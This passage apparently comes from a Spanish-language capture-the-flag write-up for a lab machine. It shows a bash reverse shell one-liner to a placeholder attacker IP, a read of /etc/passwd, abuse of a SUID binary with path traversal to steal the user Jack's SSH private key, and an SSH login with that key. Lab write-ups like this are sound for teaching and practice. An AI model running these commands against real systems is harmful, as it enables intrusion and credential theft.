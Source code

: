 ```bash
bash -c "bash -i >%26 /dev/tcp/ipatacante/PORT 0>%261"
```

![[Pasted image 20231104142039.png]]

Esto nos otorgará una **Reverse Shell** en nuestra máquina local, como vemos:

![[Pasted image 20231104142116.png]]

Tan sólo deberíamos darle tratamiento a la TTY, y tendríamos una consola en la máquina víctima totalmente funcional, sí no sabes como realizar un tratamiento a la TTY, te recomiendo leer este [((CLICKEAR AQUÍ))](https://4uli.github.io/tratamiento-tty/)

__________

# Escalada de Privilegio #1 

Estamos como el usuario www-data qué es el que corre el servicio WEB, pero nos interesa escalar privilegios, para ello conocemos los usuarios válidos del sistema.

```
cat /etc/passwd
```

![[Pasted image 20231104142411.png]]

Vemos qué existe un usuario **Jack**, indagando en el sistema en el directorio "**/opt/**" encontraríamos un binario el cual tenemos permiso para ejecutar, también un README el cual nos dice como ejecutarlo.

![[Pasted image 20231104142546.png]]

Ejecutándolo de la siguiente manera, vemos qué podemos leer archivos:

![[Pasted image 20231104142728.png]]

Debido a que tiene permisos **SUID** y el propietario es **Jack**, podríamos aprovecharnos de esto para tratar de leer la clave privada.

```bash
/execute_query 5 ../.ssh/id_rsa
```

![[Pasted image 20231104142943.png]]

Como vemos hemos obtenido la clave privada, por lo qué procedemos a copiárnosla en local para meterla en un archivo, y conectarnos a través de SSH al usuario Jack.

Primero debemos darle permisos adecuado al archivo donde esté la clave, para posterior conectarnos:

```bash
chmod 600 id_rsa
ssh -i id_rsa jack@10.10.11.232
```
